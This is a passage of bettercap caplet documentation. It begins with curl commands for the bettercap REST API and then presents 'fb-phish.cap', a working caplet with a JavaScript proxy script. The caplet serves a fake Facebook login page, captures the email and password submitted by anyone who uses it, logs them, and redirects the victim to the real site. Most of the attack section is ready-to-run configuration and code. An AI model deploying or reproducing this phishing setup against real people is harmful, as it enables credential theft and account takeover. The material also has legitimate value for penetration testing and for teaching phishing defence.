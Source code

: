 Get last 50 events:

    curl -k --user bcap:bcap https://bettercap-ip:8083/api/events?n=50

Clear events:

    curl -k --user bcap:bcap -X DELETE https://bettercap-ip:8083/api/events

<center>
    <img src="https://pbs.twimg.com/media/DTAreSCX4AAXX6v.jpg:large" width="100%"/>
</center>

#### fb-phish.cap

This caplet will create a fake Facebook login page on port 80, intercept login attempts using the `http.proxy`, print credentials and redirect the target to the real Facebook.

<center>
    <img src="https://pbs.twimg.com/media/DTY39bnXcAAg5jX.jpg:large" width="100%"/>
</center>

Make sure to create the folder first:

    $ cd caplets/www/
    $ make

```sh
set http.server.address 0.0.0.0
set http.server.path caplets/www/www.facebook.com/

set http.proxy.script caplets/fb-phish.js

http.proxy on
http.server on
```

The `caplets/fb-phish.js` proxy script file:

```javascript
function onRequest(req, res) {
    if( req.Method == "POST" && req.Path == "/login.php" && req.ContentType == "application/x-www-form-urlencoded" ) {
        var form = req.ParseForm();
        var email = form["email"] || "?", 
            pass  = form["pass"] || "?";

        log( R(req.Client), " > FACEBOOK > email:", B(email), " pass:'" + B(pass) + "'" );

        headers = res.Headers.split("\r\n")
        for (var i = 0; i < headers.length; i++) {
            header_name = headers[i].replace(/:.*/, "")
            res.RemoveHeader(header_name)
        }
        res.Status = 301;
        res.SetHeader("Location", "https://www.facebook.com")
        res.SetHeader("Connection", "close")
    }
}
```
